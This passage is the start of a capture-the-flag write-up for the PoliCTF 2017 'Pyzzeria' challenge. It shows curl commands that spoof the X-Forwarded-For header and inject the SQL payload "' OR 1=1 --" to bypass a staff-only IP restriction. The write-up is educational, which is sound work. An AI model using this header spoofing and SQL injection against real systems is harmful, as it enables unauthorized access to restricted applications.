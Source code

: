 ```yaml
---
title: Pyzzeria - polictf 2017
layout: post
categories: posts
date:   2017-07-10 18:54:12 +1000
---
```


> An evil pyzza-maker has come to town: he is terrorizing the population by putting pineapple in every pyzza he cooks. Nobody can't stop him as long as he is the only one knowing the secret to alter the recipe...
>
> Our intel sources have identified his evil lab, but unfortunately the access seems restricted to his staff only. Can you help us save the Pyzza?

*484 Pts, 3 solved, Grab Bag. http://pyzzeria.chall.polictf.it/pyzzeria*

---

This was a great challenge involving a bunch of different techniques and styles all combined into the one task, from SQLi to reverse engineering.


## Part 1 - Gaining access

After visiting the pyzzeria website we recieve the following access denied message:

{% highlight text %}
The access is currently restricted to staff only ¯\_(ツ)_/¯
{% endhighlight %}

A quick look for`robots.txt` and other default files revieled nothing of interest, but cookies being returned included `AWSALB` indicating the app was behind a load balancer and a `pySess` indicating a python app. If the filter is based on IP it might be possible to bypass it with an `X-Forwarded-For` header.


{% highlight bash %}
curl -H "X-Forwarded-For: 127.0.0.1" http://pyzzeria.chall.polictf.it/pyzzeria 
...
validate_ip() failure: illegal IP address string passed to inet_aton
{% endhighlight %}

Nice we're onto something! @corb3nik from my team OpenToAll then discovered that the header was vulnerable to an SQL injection.

{% highlight bash %}
curl -H "X-Forwarded-For: 127.0.0.2 '" http://pyzzeria.chall.polictf.it/pyzzeria
...
near ",": syntax error
{% endhighlight %}

So trying the stock standard SQLi test:

{% highlight bash %}
curl -H "X-Forwarded-For: 127.0.0.1 ' OR 1=1 --" http://pyzzeria.chall.polictf.it/pyzzeria 
...
<form id="f" action="" method="POST">
	<input type="radio" name="type" value="M" onclick="document.getElementById('leavening').disabled=false;document.getElementById('ingredients').disabled=true">Margherita<br>
	<i>Leavening time:</i>
{% endhighlight %}
